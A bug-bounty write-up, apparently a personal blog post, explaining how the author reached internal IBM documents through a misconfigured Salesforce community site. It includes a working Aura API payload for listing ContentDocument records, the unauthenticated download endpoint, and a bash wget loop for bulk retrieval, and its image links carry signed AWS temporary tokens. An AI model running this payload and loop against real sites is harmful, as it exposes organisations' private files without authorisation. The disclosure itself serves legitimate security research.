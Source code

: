 ```yaml
---
title: "How I was able to access IBM internal documents"
classes: wide
header:
  teaser: /assets/images/crackmes1/ibm.jpg
ribbon: DodgerBlue
categories:
  - bugbounty
toc: true
---
```


Hi, today I will share how I was able to access internal data of https://weathercommunity.ibm.com using salesforce misconfiguration.

This write-up will depends n this great blog: https://web.archive.org/web/20210125200757/https://www.enumerated.de/salesforce
so please read it first then read this write-up.

After I read this blog, I wanted to exploit it in the wild so I now I wanted to see the subdomains which point to on of the following CNAMEs:

*.force.com

*.secure.force.com

*live.siteforce.com

I used this great tool https://github.com/yghonem14/cngo to get CNMAEs of all the websites that have program 
on hackerone through https://chaos.projectdiscovery.io/

I found this subdomain **weathercommunity.ibm.com** which pointing out to: **thercommunity.ibm.com.00de0000000avgcma2.live.siteforce.com**

I found an endpoint like:
     
![](https://images.squarespace-cdn.com/content/v1/5f7770a896185c777e49b396/1602179691337-ZXQYGZ11DJ60P6T3RURB/ke17ZwdGBToddI8pDm48kD6aNKZxB3DN5p6JsVrwzw1Zw-zPPgdn4jUwVcJE1ZvWQUxwkmyExglNqGp0IvTJZcY1lis3u7ujHaqKviAjfgBXb2P7ACMlJX44aBDLb--xfEjN8oatzV-2psMy5gKWM4rq4TCJTzAyL25jm0DX3aYLdXwLHXSvXM5NA8ifPwj1/aura_query.PNG?format=2500w)

then I sent this POST request to the Repeater and changed the ***Message*** parameter to:
```
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"MARKER","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}

```
Replacing the ***MARKER*** string with:

***ContentDocument***

![](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/yhbkptntl3ejirmp120m63bww7qp?response-content-disposition=attachment%3B%20filename%3D%22sscx.png%22%3B%20filename%2A%3DUTF-8%27%27sscx.png&response-content-type=image%2Fpng&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQVWUV5OPW%2F20220304%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220304T203539Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEPr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLXdlc3QtMiJIMEYCIQCKkKDd%2FYAGDreUjy2PkCVyL4WkLDfQdTTWK%2FQQ%2BXV9dgIhAP4SLBQum5dkwla7qA0bALGXc3YLMn3%2FN5%2B4k4%2FnFNb%2BKvoDCGMQAhoMMDEzNjE5Mjc0ODQ5IgxVuaWbVMzYX%2FFfL7Iq1wMPdnxlUWbOCNct9xMVEH9uFip3Cq%2FZUlXK4B77TUcv5jwABvySCfeeihj1EhLuYl5%2FHWIFvcFJmz2I3KxTEhQ0%2FSdmpvmPDMJuX%2BJ7VBRTX90TG2LOtqeQo6Ahjw4qwMm2UwxvqRv0H%2BfcyBSaI8R7kCZSy4van5BLEcx0nDb%2BnvzekJTklkAOAck4EWN45ZhghIMEJz3W2gdnaSdGKKUekX30a6Mzn7%2BZyrAmEXLKNWqWrCHmr5z%2FAAHihOuqRXSJZaVO6vjW3Tnc1WxmBU4686gtnww41do6IWnHeHDpnMGqHU0zzmi3MU7wQlQH12TYux8s9Vo%2FX%2BANL4LlZbaaYjiSTzZN7S9Mv4MLkygTp4akIT1IXnSE0Njao8utUIT0hieUBCVGKw%2BpaOMJAkMIHQ%2BVToZNO13kP5gdy46BUoqJzqx2XykjU2gLpt2ScOnfCywoYyQxYkX%2FW4ndpHh5UThQaI47ySTKz79L8zg3%2B03WBxUKzzIynXiwfNsq1MY7wPJUrAdD4jDvwnvbwIrCtjJPLDTd4wu2GKNmep15vWBADnE21Rl%2FPgnGbdEQdWN%2FAcM5w3fskXZlwOTA%2F9FqYKvunPLzApawYmt3p%2FyRWZMVdC%2FRF2cw%2FKWJkQY6pAFllJRyfbRP6sIt%2BHrwTfQdejbA4WjdSyNC4Jsi9xsQS4EdtGOBD%2FzZ%2B3CEkgTXlHuCE5v0mQG9EcagoiB9viBTO7MF%2Bo4%2FPo7CEPfokbbjM2BNv2GoQt7WxPpGgVKojb76omwz7VVH1bx0ia2VId2Y7JZw3%2Bhh6OH2%2BqzokDzfJpDSAstF%2FTiA6zHYS1svfGO1yZIV9seNB0XtBjkFPBKo%2BcjGmg%3D%3D&X-Amz-SignedHeaders=host&X-Amz-Signature=ff19e6685aa66f4735dcd739fd13b496c5b21cf58a5f37667d26f4a4a11126d6)

See that there are more than 900 ID.
I extracted the ID value which started with 069 and made a simple bash script to download them one by one
through this endpoint /sfc/servlet.shepherd/document/download/$ID

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/ID

Example: 

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/0690h0000060wuHAAQ

```
while read i
do wget --no-check-certificate "https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/$i"
done < $1

```

Sample of the internal images:

![](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/9p4dbjafg8rtktxubh37ohuyc14s?response-content-disposition=attachment%3B%20filename%3D%220690h000007Aly3AAC%22%3B%20filename%2A%3DUTF-8%27%270690h000007Aly3AAC&response-content-type=image%2Fpng&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQZYNIBA6H%2F20220304%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220304T204708Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEPr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLXdlc3QtMiJIMEYCIQD37f9Upttrr7X0u6Lv9S58bOu6vWvhE5W9%2BqsSiAPkjQIhAKfSpjXF99Cv13J7IfRx2KBI3dOZ%2Bcw5BHX1tw9wq07%2FKvoDCGMQAhoMMDEzNjE5Mjc0ODQ5IgzJyEflzTkp01Ectdsq1wMY9x4YZa6ek3mI86HYnVRSL%2FG%2Bt1kJ%2BewpNkdxHW%2FCc4xWoQnS5n3Er0OEcodDpvldfFFDnlnww5yhAlcX1pUK8bfILR7b6XI3sr3WN16aNzzb5lOLSsoaMfYA2JGyRm9joy3TbXtQozCzmNT%2FNZ03iKBDc%2F5qxAKRa%2BAeLAGSyGeBbXitaOZ53QsWi3HWs7jKfSasgR%2F7N%2FpxdMsOn%2B02ufYcmakGBKwnzVqF2eaQtja75sd4I6aX3XxRaO4xdv4ESEMW6gWy2%2BWnT4p0dB3WdbKqzsImFJw5gLbpa9bPeyK0L2gLRdAjjhO%2FPUtx8fJ%2BekmnqFkXejWbrh5msiRvGL9KDITja4wurm5OvVwQo%2FwR16wNa0Dh7mcZiiDy2In2gPzHGDV4FxRW0NXY%2BcdhFLW9OMDVA%2Bd%2FsE2bcdKj3x9%2FlhMAz5Lgu%2BYnbQ8AWklSHBmP%2BUlsLDE%2Fk0NsTuzTwHSLHQ06zVGIM7V7TOZfjnaYbKUNF%2Bb1HCLJoxTYN3UqJC%2BWe8zE6Wi5gMFtFvAmc0oMr1jtfK3Un3dSLZGUxE9nx4A3RlLafBfxtiWCi2qa2rmVDrwIWvRctOx5bcFyNjzu1NAzZIx4ymQS3EqeZ1uKlp6y1t4w8KGJkQY6pAHsT0iIcDrjKOKLuVzwV%2BX%2BQZPYAAfyiSprxLAmJ6T8JhWjwc1VQtc7KEyFZKfq38antz5jzqT2sYLU3mku76D8AnCjurzoDRbRRbN4DxlQR3stAmWSam8w%2BKWmlCrgY10XCPxgmsAhhu7OsimMbMKcYdF%2BzmbC82gxo3we4RRkdHUMo1KMXR6wtHZaJ6ggJh5PA8ZcUqjCEO9gmTruotlPpHYHcA%3D%3D&X-Amz-SignedHeaders=host&X-Amz-Signature=c3f571905620666c9aac2c51b2aad54b409e3046da2614f705ed86c29e7e5fd2)

![](/assets/images/crackmes/crit.PNG)


***Final word:**
you will not understand anything if you did not read the blog first as he explained everything in it.
